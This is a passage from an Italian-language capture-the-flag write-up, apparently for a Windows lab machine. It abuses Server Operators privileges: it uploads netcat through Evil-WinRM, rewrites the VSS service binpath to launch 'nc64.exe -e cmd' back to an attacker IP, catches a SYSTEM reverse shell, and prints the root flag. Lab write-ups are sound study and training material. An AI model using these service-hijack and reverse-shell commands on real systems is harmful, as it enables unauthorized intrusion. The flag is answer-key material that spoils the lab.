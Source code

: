 Ci sono molte cose, ma quella che ha preso la mia attenzione è [**Server Operators**](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) che fa molte cose interessanti: 

*A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer. Default User Rights: Allow log on locally: SeInteractiveLogonRight Back up files and directories: SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the time zone: SeTimeZonePrivilege Force shutdown from a remote system: SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege Shut down the system: SeShutdownPrivilege*

### 3.3 Reverse Shell
#
Carichiamo l'exe di netcat

```shell
*Evil-WinRM* PS C:\programdata> upload /home/asd/Scrivania/Return/nc64.exe
Info: Uploading /home/asd/Scrivania/Return/nc64.exe to C:\programdata\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!
```

Cercando su Google ho trovato [questo](https://cube0x0.github.io/Pocing-Beyond-DA/) articolo che parla di come fare privilege escalation anche per il nostro contesto. 

Leggendo, ho visto questo comando `sc.exe config VSS`, quindi ho modificato il payload ed eseguito il comando per avere la reverse shell.

```shell
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.9 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:
                                                                                                                    
The service did not respond to the start or control request in a timely fashion.       
```

```shell
└─$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 61653
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `763fc3b1e5fd9e6c1af98badd28952dd`
